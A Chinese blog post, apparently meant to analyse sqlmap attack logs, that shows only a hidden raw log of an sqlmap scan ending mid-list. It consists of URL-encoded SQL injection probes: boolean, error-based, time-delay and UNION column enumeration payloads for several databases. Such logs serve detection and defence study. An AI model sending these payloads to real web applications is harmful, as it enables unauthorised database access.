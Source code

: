 ```yaml
---
title: "sqlmap 攻击日志分析及自动化解决想法"
description: ""
# category: 
# tags: [sqlmap, hack]
---
```


以下内容高危，如你知道密码，请输入

<div style="display:none">
以下是我用sqlmap扫的日志，这是最简单的扫描记录
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%22%28%27%27%28%22%28%27%29%28 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208676%3D9977%20AND%20%289633%3D9633 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203925%3D3925%20AND%20%289861%3D9861 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20636%3D7258%20AND%20%285513%3D5513 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%204986%3D6711 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203925%3D3925 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203864%3D9683 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20940%3D4505%20AND%20%28%27konc%27%3D%27konc HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203925%3D3925%20AND%20%28%27FFCP%27%3D%27FFCP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207381%3D1001%20AND%20%28%27OLcv%27%3D%27OLcv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%202327%3D9115%20AND%20%27Qlha%27%3D%27Qlha HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203925%3D3925%20AND%20%27Wlgw%27%3D%27Wlgw HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%201192%3D5861%20AND%20%27mmuZ%27%3D%27mmuZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%287269%3D7269 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%28%27kalg%27%3D%27kalg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%27bMbA%27%3D%27bMbA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%281279%3D1279 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%28%27RfWr%27%3D%27RfWr HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%27uRAt%27%3D%27uRAt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%283395%3D3395 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%28%27FJAP%27%3D%27FJAP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%27wdHo%27%3D%27wdHo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%281009%3D1009 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%28%27ytpV%27%3D%27ytpV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%27KQDt%27%3D%27KQDt HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%287560%3D7560 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%28%27AfMz%27%3D%27AfMz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%27pIKO%27%3D%27pIKO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%283641%3D3641 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20PG_SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%28%27mTPd%27%3D%27mTPd HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%27lhez%27%3D%27lhez HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%285747%3D5747 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%28%27iUug%27%3D%27iUug HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%27oGtV%27%3D%27oGtV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20SLEEP%285%29%20AND%20%283924%3D3924 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20SLEEP%285%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20SLEEP%285%29%20AND%20%28%27vnCj%27%3D%27vnCj HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20SLEEP%285%29%20AND%20%27xHdS%27%3D%27xHdS HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%287626%3D7626 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%28%27vrAE%27%3D%27vrAE HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%27VcUg%27%3D%27VcUg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%283376%3D3376 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20WAITFOR%20DELAY%20%270%3A0%3A5%27-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%28%27cMqq%27%3D%27cMqq HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%27QQdM%27%3D%27QQdM HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%284545%3D4545 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%28%27JNkT%27%3D%27JNkT HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%27YxKy%27%3D%27YxKy HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28771%3D771 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%282265%3D2265 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286668%3D6668 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%283039%3D3039 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287237%3D7237 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%281361%3D1361 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287315%3D7315 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286174%3D6174 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%285136%3D5136 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%282494%3D2494 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28%27nymA%27%3D%27nymA HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%28%27ijmk%27%3D%27ijmk HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27oFxP%27%3D%27oFxP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27CWYo%27%3D%27CWYo HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27lxqZ%27%3D%27lxqZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27DWNP%27%3D%27DWNP HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27byrs%27%3D%27byrs HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27KEvQ%27%3D%27KEvQ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27OLyg%27%3D%27OLyg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27TOsV%27%3D%27TOsV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%27mDCu%27%3D%27mDCu HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%27VTxz%27%3D%27VTxz HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27YmTa%27%3D%27YmTa HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27MMix%27%3D%27MMix HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27bXGh%27%3D%27bXGh HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27DuTO%27%3D%27DuTO HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27JVBX%27%3D%27JVBX HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27xxHC%27%3D%27xxHC HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27zReF%27%3D%27zReF HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27iOvN%27%3D%27iOvN HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%282876%3D2876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%284969%3D4969 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281601%3D1601 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%285858%3D5858 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%2867%3D67 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%286756%3D6756 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%283876%3D3876 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281001%3D1001 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%287414%3D7414 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28767%3D767 HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
